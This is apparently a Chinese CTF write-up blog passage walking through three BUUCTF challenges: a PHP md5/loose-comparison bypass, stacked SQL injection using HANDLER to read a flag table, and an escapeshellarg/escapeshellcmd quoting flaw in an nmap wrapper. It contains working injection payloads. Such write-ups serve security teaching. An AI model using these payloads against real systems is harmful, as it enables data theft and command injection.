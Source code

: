 ```php
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
}Please input first
```

先检测有没有`gg`和`id`这两个`GET`传参，如果有，进行`md5`值加密之后的比较，然后两者还不能相同，给两者赋值数组使得加密函数返回`NULL`，两个错误相等，并且给数组赋值不同，可以绕过函数
`/?gg[]=1&id[]=2`

后面检测`POST`传参`passwd`，然后进行弱比较，如果两者相同就输出`flag`，
于是乎，借助松散比较在比较`字符串`和`数字`之前要先将字符串转换为整形的特点，传值
`passwd=1234567a`从而绕过

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606153749636.png)
**类型比较小套餐**


# [GYCTF2020]Blacklist
一个查询框，查的时候出敏感字符了如下
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606154738792.png)
没有select，联合注入报错注入盲注都不能用，使用堆叠注入
`1';show databases;#`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606161712816.png)
`1';show tables;#`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606161753666.png)
`1';show columns from `FlagHere`;#`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606161907371.png)
下面我就没思路了，看别人的wp
>https://www.cnblogs.com/gaonuoqi/p/12398554.html

利用`handler`方法,其作用是HANDLER ... OPEN语句打开一个表，使其可以使用后续HANDLER ... READ语句访问，该表对象未被其他会话共享，并且在会话调用HANDLER ... CLOSE或会话终止之前不会关闭,也就是可以通过这种方法直接访问表中的内容

`1';HANDLER FlagHere OPEN;HANDLER FlagHere READ FIRST;HANDLER FlagHere CLOSE;#` 
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606162321316.png)

**新的mysql查询姿势诶**


# [BUUCTF 2018]Online Tool
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606204201241.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)
先代码审计
* 检测HTTP头`X-Forwarded-For`，并将其值赋给`REMOTE__ADDR`，后面要用
* `GET`传参`host`,并使用函数`escapeshellarg()`函数对其中的单引号进行转义并将整个字符串用单引号括起来
* `1'`->`'1'\'''`
* 然后经过`escapeshellcmd()`函数将里面的`不配对的单引号`和`反斜杠`转义
* `'1'\'''`->`'1'\\''\'`
* 如果拼接到所给的代码里形成的命令就是⬇
* `nmap -T5 -sT -Pn --host-timeout 2 -F '1'\\''\'`其中，1被括起来，是一个字符串，两个斜杠`\\`结合就是转义后的`\`，不再起转义作用，两个单引号`''`变为一个`空字符`，而后面的`\'`就变为转义后的单引号`'`
* 所以说它等价于`nmap -T5 -sT -Pn --host-timeout 2 -F 1\ '`

